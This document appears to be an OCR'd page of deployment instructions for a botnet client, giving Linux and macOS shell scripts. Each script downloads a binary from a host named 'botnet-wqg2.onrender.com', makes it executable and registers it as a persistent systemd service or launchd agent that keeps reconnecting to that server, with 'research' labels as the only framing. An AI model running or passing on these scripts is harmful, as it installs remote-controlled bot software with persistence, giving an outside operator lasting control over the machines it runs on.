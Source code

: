 ### **Linux Deployment:**
```bash
#!/bin/bash
# Linux deployment with systemd service

# Download and install client
wget https://botnet-wqg2.onrender.com/download/client-linux -O /usr/local/bin/bot-client
chmod +x /usr/local/bin/bot-client

# Create systemd service
cat > /etc/systemd/system/research-client.service << EOF
[Unit]
Description=Research Bot Client
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/bot-client --server https://botnet-wqg2.onrender.com --research-mode
Restart=always
User=research

[Install]
WantedBy=multi-user.target
EOF

# Enable and start service
systemctl enable research-client
systemctl start research-client
```

### **macOS Deployment:**
```bash
#!/bin/bash
# macOS deployment with launchd

# Download client
curl -L https://botnet-wqg2.onrender.com/download/client-macos -o /usr/local/bin/bot-client
chmod +x /usr/local/bin/bot-client

# Create launch daemon
cat > ~/Library/LaunchAgents/com.research.botclient.plist << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.research.botclient</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/local/bin/bot-client</string>
        <string>--server</string>
        <string>https://botnet-wqg2.onrender.com</string>
        <string>--research-mode</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
EOF

```